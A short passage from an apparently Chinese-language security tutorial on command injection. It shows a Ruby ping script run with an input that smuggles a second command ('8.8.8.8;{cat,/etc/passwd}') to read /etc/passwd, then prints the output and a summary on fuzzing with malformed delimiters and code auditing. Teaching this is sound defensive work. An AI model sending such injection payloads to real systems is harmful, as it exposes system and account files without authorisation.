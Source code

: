 读取**/etc/passwd**下的内容：

```
$ ruby ping.rb '8.8.8.8;{cat,/etc/passwd}'
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=46 time=9.215 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=46 time=10.194 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=46 time=10.171 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=46 time=8.615 ms
 
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 8.615/9.549/10.194/0.668 ms
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode. At other times this information is provided by
# Open Directory.
...
```







## 总结

明确了 对于  命令注入类 漏洞的fuzz问题 就是 基于输入端 做畸形闭合符号黑盒测试

明确 对于 命令注入类漏洞的框架 挖掘类问题  还是要基于 代码审计 测试  经验 方面